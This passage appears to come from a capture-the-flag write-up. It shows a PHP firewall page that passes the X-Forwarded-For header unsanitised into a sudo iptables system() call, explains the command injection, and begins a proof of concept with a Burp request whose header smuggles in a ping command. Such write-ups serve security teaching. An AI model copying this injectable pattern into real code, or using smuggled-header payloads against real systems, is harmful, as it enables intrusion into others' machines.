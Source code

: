 ```
        </div>
        <section class="bg-dark text-center p-5 mt-4">
                <div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
                </div>
        </section>
</div>

```

#### Identify Command Injection

This block of code is the insecure part:

```

<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

It’s using `system` to call `sudo iptables`. While I’m sure the developer thought it was ok because the attacker cannot forge their remote address, what I can control is the `X-FORWARDED-FOR` header.

### Command Injection

#### POC

I’ll send the GET request to `firewall.php` over to Burp Repeater to play with it. I’ll add a header:

```

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.6;

```
